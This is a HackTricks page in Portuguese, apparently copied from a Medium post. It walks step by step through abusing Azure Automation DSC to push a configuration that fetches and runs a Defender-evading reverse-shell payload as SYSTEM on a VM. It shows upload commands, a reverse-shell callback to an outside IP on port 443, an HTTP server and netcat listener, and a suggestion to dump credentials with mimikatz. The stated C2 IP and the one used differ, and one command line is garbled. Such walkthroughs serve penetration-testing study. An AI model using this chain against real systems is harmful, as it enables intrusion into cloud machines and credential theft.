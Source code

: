 # Az - State Configuration RCE

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Este post foi copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparação da Infraestrutura do Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Estarei hospedando uma versão simplificada do payload Invoke-PowerShellTcp.ps1 do Nishang a partir do servidor remoto "40.84.7.74", que é a máquina Kali. O nome do payload será "RevPS.ps1". Para evitar que o script do Nishang seja excluído pelo Windows Defender por qualquer motivo (talvez você prefira salvar o arquivo no disco), aqui está uma versão simplificada que você pode usar e que evitará o Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Isso será hospedado por um simples Python Simple Server na máquina Kali.

### Passo 1 — Criar Arquivos <a href="#89de" id="89de"></a>

Precisaremos criar outro arquivo de configuração DSC. Um modelo pode ser baixado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este arquivo de configuração usará a mesma função de escrita de arquivo que usamos anteriormente. Desta vez, o conteúdo inclui código para baixar e executar um payload do nosso servidor remoto. Além disso, estamos usando uma função de tarefa agendada disponível no módulo _ComputerManagementDsc_. A função de tarefa agendada terá um papel chave na execução e nos fornecerá privilégios de SYSTEM mais tarde.

Também baixaremos um script que será usado para publicar nossa configuração na VM. Ele está localizado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Esses arquivos servirão como um modelo. **Você precisará preencher os nomes das variáveis e parâmetros com o que você está usando**. Isso inclui os nomes dos recursos, caminhos de arquivos e os nomes do servidor/payload externo que você está usando. Por favor, consulte os comentários no código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Passo 2 — Compactar Arquivo de Configuração <a href="#c2c2" id="c2c2"></a>

Com nossos dois arquivos criados, vamos compactar o arquivo **‘reverse\_shell\_config.ps1’** para que possa ser enviado para a Conta de Armazenamento
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Passo 3 — Configurar Contexto de Armazenamento & Upload <a href="#bed9" id="bed9"></a>

Novamente, vamos configurar o contexto da nossa Conta de Armazenamento, o que eu já fiz. Eu já tenho um contêiner chamado '**azure-pentest**', então é aqui que farei a publicação:
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Passo 4 — Preparar Kali Box <a href="#20fb" id="20fb"></a>

Na nossa Kali box, podemos simplesmente usar _wget_ para baixar nosso payload do PowerShell. O script do reverse-shell em sua forma bruta está localizado aqui: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Precisamos editar o script de reverse-shell adicionando nossos parâmetros, para que a VM do Windows saiba onde se conectar após a execução. No meu caso, adicionei o seguinte:
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Passo 5 — Publicar Arquivo de Configuração <a href="#9ad6" id="9ad6"></a>

Agora vamos executar nosso arquivo de configuração. Eu configurei o meu para ser publicado na Área de Trabalho para uma melhor visualização, no entanto, ele pode ser publicado em praticamente qualquer lugar. Após alguns minutos, veremos que o script de reverse-shell foi publicado!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Passo 6 — Hospedar Payload e Configurar Listener <a href="#c55f" id="#c55f"></a>

Uma vez que publicamos a configuração, podemos iniciar simultaneamente um Python SimpleHTTPServer na porta 80 para hospedar o payload, juntamente com um listener netcat para capturar a conexão:
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Vemos que a tarefa agendada foi executada e nosso payload foi recuperado e executado na memória com privilégios de nível **SYSTEM**!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusão <a href="#1ec2" id="1ec2"></a>

Isso agora abre a porta para muitas possibilidades. Como temos um shell executando como **SYSTEM**, podemos despejar credenciais com mimikatz (potencialmente arriscado dependendo da maturidade do EDR para recursos na nuvem). Se você despejar credenciais, há uma grande chance de que elas possam ser reutilizadas em diferentes recursos. Por último, uma grande lição é que, em vez de limitar isso a uma VM, você agora tem a capacidade de potencialmente aplicar essa configuração em várias VMs.

Com isso, concluímos nossas aventuras com Azure Automation DSC! Espero que você tenha se divertido, aprendido muito e continue a expandir com sua própria criatividade.

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

